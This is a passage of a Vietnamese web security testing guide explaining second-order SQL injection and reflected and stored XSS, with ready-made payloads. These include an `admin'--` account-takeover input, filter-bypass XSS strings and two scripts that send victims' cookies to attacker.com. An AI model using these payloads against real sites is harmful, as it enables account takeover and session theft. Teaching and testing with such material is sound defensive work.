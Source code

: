 ### 3.1.3. Second-order Injections

Second-order (stored) SQL Injection là khi tấn công được thực hiện qua hai bước riêng biệt:

1. Payload được chèn vào hệ thống và lưu trữ (thường trong database)
2. Payload được kích hoạt khi được sử dụng bởi một hành động khác

#### Kỹ thuật kiểm tra:

```
# Chèn payload vào trường dữ liệu được lưu trữ (như username)
user' OR '1'='1

# Tìm các chức năng sử dụng dữ liệu đã lưu (như reset password)
```

#### Ví dụ về tấn công:

1. Đăng ký với username: `admin'--`
2. Khi ứng dụng tìm kiếm người dùng này, truy vấn sẽ trở thành: `SELECT * FROM users WHERE username='admin'--'`
3. Kết quả là bạn có thể truy cập vào tài khoản admin

## 3.2. Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) là lỗ hổng cho phép kẻ tấn công chèn mã JavaScript độc hại vào các trang web, có thể dùng để đánh cắp cookie, session, thông tin nhạy cảm, hoặc chuyển hướng người dùng.

### Các loại XSS:

#### 1. Reflected XSS:

JavaScript được phản ánh ngay lập tức trong response, thường thông qua tham số URL.

```javascript
# Kiểm tra cơ bản
<script>alert("XSS")</script>
<img src=x onerror=alert("XSS")>
<body onload=alert("XSS")>

# Đánh cắp cookie
<script>fetch("https://attacker.com/steal?cookie="+document.cookie)</script>

# Bypass các bộ lọc cơ bản
<scr<script>ipt>alert("XSS")</script>
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#88;&#83;&#83;&#34;&#41;">
<div style="background:url('javascript:alert(1)')">
```

#### 1. Stored XSS:

JavaScript được lưu trữ trên server (ví dụ: trong cơ sở dữ liệu) và được thực thi khi người dùng khác xem trang.

```javascript
# Chèn vào các trường lưu trữ như comments, profiles, messages
<script>document.location='https://attacker.com/steal?cookie='+document.cookie</script>
```
